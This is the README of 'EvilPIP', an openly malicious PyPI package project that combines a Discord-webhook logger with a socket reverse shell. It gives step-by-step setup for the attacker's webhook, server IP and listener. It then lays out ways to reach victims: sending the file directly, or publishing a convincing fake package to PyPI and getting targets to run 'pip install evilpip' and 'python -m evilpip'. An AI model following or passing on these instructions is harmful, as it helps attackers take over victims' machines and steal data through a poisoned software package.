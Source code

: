 # EvilPIP 👿
**Malicious PyPi Package/Malware with Discord Logger and Socket Reverse Shell**

# Usage
Edit the VARIABLES class with your information

    In '__main__.py' only {
      set 'webhook' to your Discord webhook
      set 'REVSHELL' to False if you don't want the reverse shell
      set 'REVSHELL' to True if you want the reverse shell
    }
    In '__main__.py' and 'server.py' {
      Set 'serverip' to your host/VPS IP for the victim to connect to
      Set 'port' to the port you want the victim to connect to (optional)
      Set 'buffer' to the buffer size (in bytes) that you want to send (optional)
    }

If **REVSHELL** is enabled and you want the victim to connect to the reverse shell -

    Port-Forward on the port you had chosen (look up a tutorial for your router/VPS)


# Distribution methods

**If you set REVSHELL to True: Open 'server.py' on your own machine/VPS to wait for a reverse shell connection**

**Method 1: Sending file directly (only works if they have the dependencies)**
- Rename and encrypt (optional) the '__ main __.py' file
- Send the file to someone directly and wait for a connection
- When opened, evilpip should be executed

**Method 2: PyPi Package**
- Upload the package to PyPi and make it look convincing (requires experience)
- Get someone to run these commands (evilpip = your pypi package name):

      pip install evilpip
      python -m evilpip
